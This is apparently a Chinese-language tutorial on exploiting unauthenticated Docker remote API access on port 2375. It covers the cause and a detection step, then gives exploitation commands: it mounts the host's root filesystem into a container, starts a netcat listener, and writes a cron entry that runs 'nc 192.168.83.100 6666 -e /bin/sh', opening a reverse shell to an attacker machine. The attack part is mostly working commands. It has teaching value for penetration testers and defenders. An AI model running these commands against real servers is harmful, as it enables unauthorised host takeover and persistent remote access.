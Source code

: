 docker swarm 是 docker 下的分布化应用的本地集群，在开放 2375 端口监听集群容器时，会调用这个 api

**漏洞成因**

```
1. dockerd -H unix:///var/run/docker. sock -H 0.0. 0.0:2375
2. docker守护进程监听在0.0.0.0，外网可访问
3.没有使用iptable等限制可连接的来源ip。
```

**漏洞检测**

    输入地址 http://your-ip:2375/version, 若能访问，证明存在未授权访问漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa6fgTkffCWqthicLm00m8q7mDbuw0RontibTTYnNyy60XrZC6XhGLfzcg/640?wx_fmt=png)

 使用命令行获取信息 (docker 环境下)

```
docker -H tcp://192.168.1.7:2375 images                  //获取镜像信息
docker -H tcp://192.168.1.7:2375 run 28f6e2705743        //启动docker容器
docker -H tcp://192.168.1.7:2375    ps -a                //获取容器信息
docker -H tcp://192.168.1.7:2375                        //关闭容器
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUamcK7wf0mvETSPbnPsAIEegibdKibxvDuIHPWHqVlfib7DuBuB8iaT4aiaJQ/640?wx_fmt=png)

**利用方法**

```
随意启动一个容器，并将宿主机的 / 目录挂载到容器的 /mnt目录，这样就可以操作宿主机中的文件了
docker -H tcp://192.168.1.7:2375 run -it -v /:/mnt 28f6e2705743 /bin/sh

攻击机监听
root@kali:~# nc -lvvp 6666
listening on [any] 6666 ...

写入就计划任务，反弹shell
echo "* * * * * /usr/bin/nc 192.168.83.100 6666 -e /bin/sh" >> /mnt/etc/crontabs/root
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUamcK7wf0mvETSPbnPsAIEegibdKibxvDuIHPWHqVlfib7DuBuB8iaT4aiaJQ/640?wx_fmt=png)

成功反弹 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaCqEUFgY7PeOY3FADdB0bic1fmDfQ9kBIEImvtSZkwKwBPNWe0iaPVCXQ/640?wx_fmt=png)

进入容器查看定时任务，*/15 的意思为每 15 分钟执行一次

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa8BroESSqczBF8967J5PYBU0mb4u9TMh6FeRAdTySyf5PumGhkRcp4A/640?wx_fmt=png)

**也可以使用工具进行反弹 shell**  

    client 改为存在漏洞的 ip 地址  
    data 将 ip 改为反弹 shell 的地址  
    定时任务每 15 分钟执行一次
